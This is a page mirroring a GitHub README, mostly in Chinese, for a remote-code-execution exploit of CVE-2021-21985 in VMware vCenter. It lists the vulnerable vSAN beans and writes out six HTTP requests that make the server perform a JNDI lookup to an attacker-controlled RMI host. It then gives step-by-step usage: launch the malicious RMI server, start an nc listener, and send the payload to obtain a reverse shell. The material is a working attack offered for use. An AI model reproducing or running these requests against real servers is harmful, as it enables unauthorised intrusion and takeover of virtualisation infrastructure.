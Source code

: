 # cve-2021-21985_exp

cve-2021-21985 exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/xnianq](https://github.com/xnianq) |
| Url      | [https://github.com/xnianq/cve-2021-21985_exp](https://github.com/xnianq/cve-2021-21985_exp)                                               |
| Stars    | 108                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2021-21985 exploit

## 0x01 漏洞点

![image-20210603144442312](README.assets/image-20210603144442312.png)

分析可见：

https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985?referrer=home#rapid7-analysis

## 0x02 exploit

对beans对象进行重新构造，实现rce。

bean列表： 

```
localizedMessageBundle
vsanWorkerThreadFactory
vsanThreadPoolImpl
vsanServiceBundleActivator
vsanServiceFactory
vsanProviderUtils_setVmodlHelper
vsanProviderUtils_setVsanServiceFactory
vsanQueryUtil_setDataService
vsanComponentsProviderImpl
capabilityPropertyProviderImpl
pbmDataProviderImpl
vsanCapabilityCacheManager
vsanCapabilityUtils_setVsanCapabilityCacheManager
vsanUtils_setMessageBundle
vsanFormatUtils_setUserSessionService
```

随风大佬使用的vsanProviderUtils_setVmodlHelper在我这边环境没测试成功，就选用了另外的bean进行测试，由于Vsphere UI使用的tomcat中间件，可以通过jndi rmi bypass(https://github.com/welk1n/JNDI-Injection-Bypass/blob/master/src/main/java/payloads/EvilRMIServer.java）远程执行命令。

```
Step1
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject
{"methodInput":[null]}


Step2
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod
{"methodInput":["javax.naming.InitialContext.doLookup"]}

Step3
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod
{"methodInput":["doLookup"]}

Step4 
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments
{"methodInput":[["rmi://attip:1097/ExecByEL"]]}

Step5
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare
{"methodInput":[]}

Step6
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke
{"methodInput":[]}
```

## 0x03 使用方法

1. 启动rmi服务
  java -cp  JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip
  ![image-20210603201234855](README.assets/image-20210603201234855.png)
2. 启动reverse shell 侦听
```angular2
nc -lvvp 5555
```
3. 执行以上payload，得到reverse shell
![image-20210603201337539](README.assets/image-20210603201337539.png)

## 0x04 reference
* https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/
* https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985#rapid7-analysis
* https://github.com/welk1n/JNDI-Injection-Bypass



## Get the content

```
git clone https://github.com/xnianq/cve-2021-21985_exp
cd cve-2021-21985_exp
```

{% embed url="https://github.com/xnianq/cve-2021-21985_exp" %}

<figure><img src="https://avatars.githubusercontent.com/u/17513849?v=4" alt=""><figcaption><p>xnianq</p></figcaption></figure>
